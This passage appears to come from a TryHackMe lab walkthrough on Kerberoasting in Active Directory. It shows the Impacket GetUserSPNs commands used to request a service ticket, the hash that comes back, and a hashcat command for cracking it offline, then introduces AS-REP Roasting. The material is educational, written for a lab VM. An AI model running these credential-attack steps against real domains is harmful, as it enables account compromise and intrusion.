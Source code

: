 The previous command is straightforward: we provide the Domain  Controller IP address and the domain name\username. Then the GetUserSPNs script asks for the user's password to retrieve the required  information.

The output revealed that we have an SPN account,  svc-user. Once we find the SPN user, we can send a single request to get a TGS ticket for the srv-user user using the -request-user argument.

- **Requesting a TGS Ticket as SPN Account**        

```shell-session
user@machine$ python3.9 /opt/impacket/examples/GetUserSPNs.py -dc-ip 10.10.162.92 THM.red/thm -request-user svc-user 
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

Password:
ServicePrincipalName          Name     MemberOf  PasswordLastSet             LastLogon  Delegation
----------------------------  -------  --------  --------------------------  ---------  ----------
http/creds-harvestin.thm.red  svc-user            2022-06-04 00:15:18.413578  

[-] CCache file is not found. Skipping...
$krb5tgs$23$*svc-user$THM.RED$THM.red/svc-user*$8f5de4211da1cd5715217[*REMOVED*]7bfa3680658dd9812ac061c5
        
```

Now, it is a matter of cracking the obtained TGS ticket using the HashCat tool using 

`-m 13100` mode as follows,

- **Cracking the TGS Ticket using Hashcat**        

```shell-session
user@machine$ hashcat -a 0 -m 13100 spn.hash /usr/share/wordlists/rockyou.txt
        
```

Try replicating the steps against the attached VM by finding the SPN user and then performing the Kerberoasting attack.  Once you have obtained the ticket, crack it and answer the question  below.

### AS-REP Roasting

AS-REP Roasting is the technique that enables the attacker to retrieve  password hashes for AD users whose account options have been set to "Do not require Kerberos pre-authentication". This option relies on the old Kerberos authentication protocol, which allows authentication without a password. Once we obtain the hashes, we can  try to crack it offline, and finally, if it is crackable, we got a  password!

![AS-REP Roasting](./assets/81bf1dad6425f8f06b0026f4e748f193.png)
